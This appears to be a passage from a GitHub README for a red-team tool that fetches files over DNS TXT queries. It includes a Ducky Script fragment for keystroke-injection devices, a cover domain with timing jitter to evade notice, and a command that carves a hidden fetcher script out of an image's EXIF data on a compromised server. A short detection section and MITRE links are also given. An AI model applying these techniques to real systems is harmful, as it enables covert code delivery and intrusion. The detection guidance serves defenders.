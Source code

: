 Example generated Ducky Script to be used with a HID emulation device e.g. Flipper Zero, Rubber Ducky, Teensy HID, etc
```
STRING $outfile = "beacon.7z"
ENTER
STRING $subdomain = "cdn"
ENTER
STRING $subs = @('lo')
ENTER
STRING $domain = "x.legitcdn.com"
ENTER
STRING $dnshexfile = "tmp.txt"
ENTER
STRING $jittermax = 5
ENTER
STRING $jittertime = Get-Random -Minimum 1 -Maximum $jittermax
ENTER
```

#### EXIF fetcher code extraction on Linux/UNIX

On Linux/UNIX you can extract the DNS fetcher from the EXIF data of the image if that is the only way you can get code on the target system:

```webapp@production-server:/app/upload/images$ strings -w sh-cdn.x.legitcdn.com.png | sed -n '5,50p;51q' > get.sh```

#### EXIF fetcher code extraction on Windows

On Windows you can use notepad or another application that can open a file as a text file from which you can carve the fetcher script:

![EXIF data viewable using text editor](docs/images/image_exif.png)

## Detection

Create detection rules for: 
  - Repeated TXT queries coming from workstations and servers
  - Repeated TXT queries to the same top level domain
  - Differences and uniformity of TXT query reply length 

More information:

  - [https://attack.mitre.org/techniques/T1048/](https://attack.mitre.org/techniques/T1048/)
  - [https://attack.mitre.org/techniques/T1095/](https://attack.mitre.org/techniques/T1095/)

## Other notes

### DNS query sleep intervals between requests
Edit `scripts/mkzoneslices.sh` and adjust the `JITTERTIME` variable if the current file fetcher setting of a random 1-5 second delay between requests is not sufficient

## Author

Written by Tom Van de Wiele during the COVID-19 pandemic lock-down. Twitter: [@0xtosh](https://twitter.com/0xtosh)

